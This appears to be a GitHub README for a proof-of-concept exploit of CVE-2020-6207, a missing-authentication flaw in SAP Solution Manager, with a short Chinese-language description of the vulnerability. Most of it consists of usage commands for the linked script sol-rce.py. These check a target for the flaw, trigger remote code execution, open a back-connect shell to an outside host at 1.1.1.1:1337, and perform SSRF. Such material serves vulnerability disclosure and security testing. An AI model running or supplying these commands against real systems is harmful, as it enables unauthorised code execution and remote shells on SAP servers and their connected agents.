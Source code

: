 # SAP_EEM_CVE-2020-6207 PoC

SAP Solution Manager是德国思爱普（SAP）公司的一套集系统监控、SAP支持桌面、自助服务、ASAP实施等多个功能为一体的系统管理平台。该平台可以帮助客户建立SAP解决方案的生命周期管理，并提供系统监控、远程支持服务和SAP产品组件升级等功能。 SAP Solution Manager (User Experience Monitoring) 7.2版本中存在安全漏洞，该漏洞源于程序没有对服务进行任意的身份验证。攻击者可利用该漏洞入侵所有连接Solution Manager的SMDAgents。

漏洞细节：https://github.com/chipik/SAP_EEM_CVE-2020-6207/blob/main/Process.md

PoC for CVE-2020-6207 (Missing Authentication Check in SAP Solution Manager)：https://github.com/chipik/SAP_EEM_CVE-2020-6207

**Check**

```bash
➜ python sol-rce.py -H 172.16.30.43 -P 50000 -c
Vulnerable! [CVE-2020-6207] - http://172.16.30.43:50000
```

**Trigger RCE**

```
python sol-rce.py -H 172.16.30.43 -P 50000 --rce calc.exe
```

**Get BackConnect**

```bash
➜ python sol-rce.py -H 172.16.30.43 -P 50000 --back 1.1.1.1:1337
```

**SSRF**

```bash
➜ python sol-rce.py -H 172.16.30.43 -P 50000 --ssrf http://1.1.1.1/chpk
```

**sol-rce.py**

https://github.com/chipik/SAP_EEM_CVE-2020-6207/blob/main/sol-rce.py